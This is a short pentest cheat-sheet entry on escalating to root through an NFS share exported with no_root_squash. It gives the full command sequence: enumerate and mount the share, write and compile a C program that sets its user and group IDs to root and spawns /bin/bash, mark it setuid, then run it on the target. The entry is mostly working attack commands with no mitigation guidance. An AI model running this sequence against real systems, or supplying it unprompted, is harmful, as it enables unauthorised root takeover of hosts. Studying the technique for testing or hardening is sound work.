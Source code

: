 ## NFS Root Squashing

`cat /etc/exports` then check for no root squash. That means that directory shareable and can be mounted.

In attacker machine `showmount -e <target_ip>` to see mountable folder.

`mkdir /tmp/mountme`
`mount -o  rw,vers=2 <target_ip>:mountable_folder /tmp/mountme`

Then we can mount malicous code to it. For example:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`

Now we can compile by,`gcc /tmp/mountme/x.c -o /tmp/mountme/x`

Then `chmod +s /tmp/mountme/x`

Then execute the x from target shell. `cd /sharefolder/` and `./x`. This will give root access.